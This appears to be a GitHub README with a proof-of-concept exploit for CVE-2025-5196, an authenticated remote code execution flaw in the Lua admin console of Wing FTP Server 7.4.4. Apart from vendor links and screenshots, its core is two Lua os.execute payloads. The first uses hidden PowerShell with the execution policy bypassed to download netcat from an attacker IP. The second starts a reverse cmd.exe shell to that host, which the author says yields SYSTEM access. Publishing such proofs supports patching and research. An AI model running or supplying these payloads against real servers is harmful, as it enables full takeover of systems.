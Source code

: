 # Wing FTP Server 7.4.4 - Remote Code Execution (Authenticated) (CVE-2025-5196)
Wing FTP Server provides an administrative Lua scripting console accessible via its web interface. Authenticated administrators are able to execute arbitrary Lua code with insufficient sandboxing.

Affected Version: Wing FTP Server 7.4.4 (Windows) | Authentication Required: Yes

---

# Download & Release Notes
Until May 24, 2025, the latest version of the application provided by the vendor can be found at the following link: https://www.wftpserver.com/download.htm

Additionally, it can be noted that until the same date, there is a release note published informing that the RCE vulnerability has been fixed in version 7.4.4. The link to the release notes can be found here: https://www.wftpserver.com/serverhistory.htm
![image](https://github.com/user-attachments/assets/6c012118-50d8-4698-9378-8eef746c4708)

---

# PoC
PoC related to CVE-2025-5196 [VulDB](https://vuldb.com/?id.310279)
![image](https://github.com/user-attachments/assets/f35ef4d9-fd4a-4a5f-ab50-d1b9bf5bb3b3)

Wing FTP Server Web Interface

![image](https://github.com/user-attachments/assets/36426432-9ba6-4f00-8599-2dd9dffc876b)

![image](https://github.com/user-attachments/assets/9b316062-448d-45f5-8988-c98bbf950ce0)

The first peace of the command will download the nc.exe (netcat for Windows x86) to the path "C:\Users\usuario\Desktop\Drops". The second part will execute nc.exe 192.168.234.131 4443 -e cme.exe.
```
os.execute('powershell -NoP -NonI -W Hidden -Exec Bypass -Command "(New-Object Net.WebClient).DownloadFile(\'http://192.168.234.131:8000/nc.exe\', \'C:\\\\Users\\\\usuario\\\\Desktop\\\\Drops\\\\nc.exe\')"')
```
```
os.execute('cmd /c powershell -NoP -W Hidden -Command "Start-Process \\"C:\\Users\\usuario\\Desktop\\Drops\\nc.exe\\" -ArgumentList \\"192.168.234.131\\",\\"4443\\",\\"-e\\",\\"cmd.exe\\""')
```
![image](https://github.com/user-attachments/assets/c6aaac7b-bdca-4d1a-baaf-cc4a14c56cc7)

NT/SYSTEM Shell
![image](https://github.com/user-attachments/assets/a8efd159-0153-4304-9438-7ae3b27ce258)
